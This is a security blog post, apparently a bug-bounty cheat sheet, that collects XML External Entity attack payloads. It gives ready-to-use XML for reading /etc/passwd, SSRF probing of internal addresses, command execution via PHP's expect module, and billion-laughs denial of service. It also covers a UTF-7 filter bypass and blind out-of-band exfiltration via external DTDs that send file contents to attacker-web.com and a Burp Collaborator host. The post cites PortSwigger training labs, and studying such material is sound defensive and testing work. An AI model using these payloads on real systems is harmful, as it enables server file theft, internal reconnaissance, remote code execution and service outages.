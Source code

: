 ```yaml
---
layout: post
title:  "XXE Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

XXE (XML External Entity) attacks are vulnerabilities that arise in applications that parse XML input. Thanks to this an attacker could alter the XML data in the request to execute an attack.

# Table of Contents
1. [Dangers in XXE attacks](#DangersXXE)
2. [Payloads](#XXEpayloads)<br>
   2.1. [XXE to LFI](#XXEtoLFI)<br>
   2.2. [XXE to SSRF](#XXEtoSSRF)<br>
   2.3. [XXE to RCE](#XXEtoRCE)<br>
   2.4.  [XXE to DOS](#XXEtoDOS)
6. [Blind on request](#BlindXXE)
7. [Bypass XXE](#XXEBypass)
8. [Out-Of-Band](#OutOFBand)

---

### Dangers in XXE attacks <a name="DangersXXE"></a>
- **Exfiltrate critical information:**<br>
It
would be possible to obtain internal files from the server, which is dangerous.<br>
Example: 
[XXE to LFI](#XXEtoLFI)
- **Enumerate ports and domains in addresses internal to the network:**<br>
Through the requests enumerate the network.<br>
Example: 
[XXE to SSRF](#XXEtoSSRF)
- **See open ports at other external addresses:**<br>
 List ports using requests.
- **Execute code:** <br>
If the server has the PHP "expect" module, it would be possible to execute code and be able to execute commands.<br>
Example: 
[XXE to RCE](#XXEtoRCE)
- **Denial of service:**
Causes a denial of service by repeated calls in entitys functions.<br>
Example: 
[XXE a DOS](#XXEtoDOS)

---

###  XXE payloads <a name="XXEpayloads"></a>
**LFI Test** <a name="XXEtoLFI"></a><br>
View internal server files

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**XXE a SSRF** <a name="XXEtoSSRF"></a><br>
List the local network of the server
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

**XXE a RCE** <a name="XXEtoRCE"></a><br>
Abusing the expect module of php to execute commands (It is required to have this module on the server)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
    <checkproduct>
       <productId>&xxe;</productId>
       <storeId>2</storeId>
    </checkproduct>
```
**XXE a DOS** <a name="XXEtoDOS"></a><br>
Cause a denial of service by repeatedly calling entity's functions
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
---

### XXE blind on request <a name="BlindXXE"></a>
**See if there is an XXE without it being seen in the request**

One way to identify an XML blind in a request: If the application embeds the submitted data in an XML document and then parses the document as it passes in a backend SOAP request.
We can try injecting XInclude which is a part of the XML specification that allows you to create an XML document from subdocuments..<br>
Example:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **This could also be used in case it is blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://attacker-web.com"/></foo>&storeId=1
```

**Blind XXE test (When it does not return values)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdomain.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
### XXE bypass <a name="XXEBypass"></a>
**XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://attacker-web.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

**Access Control bypass (loading sensitive data)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY load SYSTEM "php://filter/read=convert.base64-encode/resource=http://vulnerable-web.com/config.php">]>
<foo><result>&load;</result></foo>
```

---

### XXE Out-Of-Band: <a name="OutOFBand"></a>

**EXAMPLE 1**
- It is injected into the value &xxe; in one of the xml values that are sent.

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker-web.com"> ]>
```

**EXAMPLE 2**
- Payload that we will include completely in the xml value that is sent. It will make a request to the attacker's website, so we can know if it really processes the information we send it.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com"> %xxe; ]>
```

**EXAMPLE 3**
- Code from http://attacker-web.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdomain.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- XML injection before the values of the page, it will inject the code of cositas.dtd in the page

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com/cositas.dtd"> %xxe;]>
```

**EXAMPLE 4**
- XXE BLIND based on error message
- Code from http://attacker-web.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///notexist/%file;'>">
%eval;
%error;
```

- XML injection in the page, it will inject the code of cositas.dtd

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com/cositas.dtd"> %xxe;]>
```

**EXAMPLE 5**
- Exploiting an XXE by abusing the system's DTD files, in the file it calls ISOamso, we will use that variable to exploit the XXE by creating a custom xml that performs the function of calling the /etc/passwd file that is the target.

```xml
<!DOCTYPE foo [
<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; variable "
      <!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///notexist/&#x25;file;&#x27;>
  ">
  &#x25;variable;
  &#x25;error;
'>%el_dtd;]>
```

---

Source Labs:
- [Portswigger Labs](https://portswigger.net/web-security)
